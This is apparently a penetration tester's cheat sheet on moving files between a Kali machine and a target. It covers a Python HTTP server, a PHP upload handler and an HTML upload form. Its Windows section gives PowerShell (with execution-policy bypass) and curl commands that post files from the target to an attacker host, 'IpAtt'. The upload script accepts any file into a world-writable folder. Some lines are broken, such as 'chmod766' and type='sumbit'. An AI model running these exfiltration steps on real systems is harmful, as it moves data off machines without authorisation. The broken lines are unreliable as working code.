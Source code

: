 # File transfer

## Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

```
python -m http.server 8080

mv somefile /var/www/html
systemctl start apache2
```

## Upload

source: https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9

### Php on Kali

```
vim upload.php

<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>

mv upload.php /var/www/html

mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads

systemctl start apache2
```

### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'

curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```

### Http on Kali

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser


